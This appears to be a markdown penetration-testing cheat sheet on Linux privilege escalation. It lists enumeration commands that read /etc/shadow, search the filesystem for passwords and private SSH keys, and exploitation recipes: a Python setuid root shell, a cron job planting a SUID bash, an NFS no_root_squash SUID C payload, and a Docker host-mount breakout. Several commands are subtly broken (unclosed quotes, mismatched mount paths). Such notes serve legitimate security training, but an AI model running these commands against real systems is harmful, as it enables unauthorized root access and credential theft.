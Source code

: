 # Linux privilege escalation

## Manual enumeration

### User

```
whoami
id
history
```

### Other Users

```
cat /etc/passwd
who
```

### Privileges

```
sudo -l
cat /etc/sudoers
```

### File system

```
pwd (current location)
echo $PATH
```

### Hostname

```
hostname
```

### OS and architecture

```
cat /etc/issue
cat /etc/*-release
uname -a
lscp
```

### Environment

```
env
```

```
ps aux
/proc/version
```

#### pspy

pspy allows you to see commands run by other users, cron jobs, etc. as they execute.

{% embed url="https://github.com/DominicBreuker/psp" %}

```
# print events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000 
```

### Network

```
ifconfig OR ip a (interfaces)
route OR route l (routing table)
netstat -ano OR ss -anp (active connections)
arp -a
```

### Applications/patch levels/drivers/kernel modules

```
dpkg -l
lsmod (lists all kernel modules loaded)
/sbin/modinfo libata (more info on specific kernel modules - libata in this example)
```

### Readable/writeable directories

```
find / -writeable -type d 2>/dev/null
```

### Unmounted disks

```
mount
cat /etc/fstab (drives mounted at boot)
lsblk (all available disks)
```

### Sensitive files

```
history
cat /etc/passwd 
cat /etc/shadow 
cat /etc/group 
```

### Passwords

Search the file system for passwords. Try additional search terms (pass, etc.).

```
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
```

### SSH keys

Search the filesystem for SSH keys. Public keys are typically stored in the "authorized\_keys" folder, private keys are stored as "id\_rsa".

```
find / -name id_rsa* 2> /dev/null
find / -name authorized_keys* 2> /dev/null
```

## Automated tools

* **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
* **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
* **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

## Exploitation paths

### SUID Files

SUID files allow individuals to execute files using the privileges of another user. They are identifiable by an "s" in the third character of the root permissions for a file. You can search manually with:

```
find / -perm -u=s -type f 2>/dev/null
```

If you find identify a SUID file, check [GTFO bins](https://gtfobins.github.io/) for exploits

### Capabilities

The exploitation for capabilities is similar to that of SUID files. Search for capabilities with:

```
getcap -r / 2>/dev/null
```

Look for "+ep" at the end of any returned items. If present, exploitation possible.

### Execution

Run Python to escalate

```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")
```

Other possibly exploitable capabilities include perl, tar, openssl (check [GTFO bins](https://gtfobins.github.io/))

### Scheduled Tasks

```
cat /etc/cron*
cat /etc/crontab
systemctl list-timers --all
```

Columns represent minute, hour, day of month, month, day of week. Asterisks in columns indicate "all", asterisks in all fields indicates that the task runs every minute/hour/day of month/month/day of week

#### Exploitation

First, check the file type using the `file` command and whether or not you have write access. Sometimes replacing the file with one created on your attacking machine is easier than modifying the file that is in place. If so, rename the current file as \*.old and use wget to replace with the version created on your attack machine.

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > script
**Wait for the job to execute, then
/tmp/bash -p
```

### NFS root squashing

Check `cat /etc/exports` for results indicating "no\_root\_squash", indicating folders that are shareable and can be mounted. If available, remote commands are executed as root.

#### Exploitation

From the attacking machine:

Search for mountable shares

```
showmount -e ipaddress
```

Create a new directory:

```
mkdir /tmp/mntme
```

Mount the folder:

```
mount -o rw, vers=2 ipaddress:/tmp /tmp/mountme
```

Create malicious file:

```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; /tmp/mountme/x.c
```

Compile the file:

```
gcc /tmp/mountme/x.c -o /tmp/mountme/x
```

Return to the victim machine, navigate to the target directory (/tmp), and execute the file

```
./x
```

### Docker

If you are in the Docker group, check to see which containers are available:

```
docker image ls
```

Run the image:

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
